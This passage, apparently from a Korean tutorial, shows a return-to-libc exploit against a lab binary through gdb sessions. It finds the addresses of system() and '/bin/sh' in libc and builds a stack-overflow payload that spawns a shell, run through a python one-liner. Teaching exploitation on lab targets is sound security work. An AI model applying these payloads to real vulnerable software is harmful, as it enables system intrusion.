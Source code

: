 ```
$ gdb -q ./example1_nx
Reading symbols from ./example1_nx...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048479
(gdb) r aaaabbbb
Starting program: ~/example1_nx aaaabbbb
Breakpoint 1, 0x080484fb in main ()
(gdb) info proc map
process 110780
Mapped address spaces:
	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 ~/example1_nx
	 0x8049000  0x804a000     0x1000        0x0 ~/example1_nx
	 0x804a000  0x804b000     0x1000     0x1000 ~/example1_nx
	0xf7e02000 0xf7e03000     0x1000        0x0 
	0xf7e03000 0xf7fb3000   0x1b0000        0x0 /lib/i386-linux-gnu/libc-2.23.so
	0xf7fb3000 0xf7fb5000     0x2000   0x1af000 /lib/i386-linux-gnu/libc-2.23.so
	0xf7fb5000 0xf7fb6000     0x1000   0x1b1000 /lib/i386-linux-gnu/libc-2.23.so
	0xf7fb6000 0xf7fb9000     0x3000        0x0 
	0xf7fd3000 0xf7fd4000     0x1000        0x0 
	0xf7fd4000 0xf7fd7000     0x3000        0x0 [vvar]
	0xf7fd7000 0xf7fd9000     0x2000        0x0 [vdso]
	0xf7fd9000 0xf7ffc000    0x23000        0x0 /lib/i386-linux-gnu/ld-2.23.so
	0xf7ffc000 0xf7ffd000     0x1000    0x22000 /lib/i386-linux-gnu/ld-2.23.so
	0xf7ffd000 0xf7ffe000     0x1000    0x23000 /lib/i386-linux-gnu/ld-2.23.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e3dda0 <system>
(gdb) find 0xf7e03000, 0xf7fb3000, "/bin/sh"
0xf7f5ea0b
1 pattern found.
(gdb) x/s 0xf7f5ea0b
0xf7f5ea0b:	"/bin/sh"
(gdb) 
```
system("/bin/sh")를 호출하기 위해 알아야 하는 값은 system 함수의 주소와 /bin/sh 문자열의 주소이다.
main 함수에 breakpoint를 설정한 후, gdb의 print 명령어를 통해 system 주소를 찾고, find 명령어를 통해 libc.so.6 라이브러리에 존재하는 /bin/sh 주소를 찾았다.
system이나 popen 등의 셸 명령어 실행 함수들은 내부적으로 /bin/sh 문자열을 사용하기 때무에 라이브러리 메모리에서 /bin/sh 문자열을 찾을 수 있다.
system 함수와 "/bin/sh" 문자열의 주소를 이용해 실제 익스플로잇을 만들어 보면 아래와 같다.
```
"A"*36 + "\xa0\xdd\xe3\xf7" + "BBBB" + "\x0b\xea\xf5\xf7"
```
vuln 함수가 리턴하는 시점에 breakpont를 설정해 스택 메모리를 살펴보자.
```
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0804843b <+0>:	push   ebp
   0x0804843c <+1>:	mov    ebp,esp
   0x0804843e <+3>:	sub    esp,0x20
   ...
   0x08048475 <+58>:	ret    
End of assembler dump.
(gdb) b *0x08048475
Breakpoint 1 at 0x8048475
(gdb) r `python -c 'print "A"*36+"\xa0\xdd\xe3\xf7"+"BBBB"+"\x0b\xea\xf5\xf7"'`
Starting program: ~/example1_nx `python -c 'print "A"*36+"\xa0\xdd\xe3\xf7"+"BBBB"+"\x0b\xea\xf5\xf7"'`
Breakpoint 1, 0x08048475 in vuln ()
(gdb) x/i $eip
=> 0x8048475 <vuln+58>:	ret    
(gdb) x/3wx $esp
0xffffd5b0:	0xf7e3dda0	0x42424242	0xf7f5ea0b
```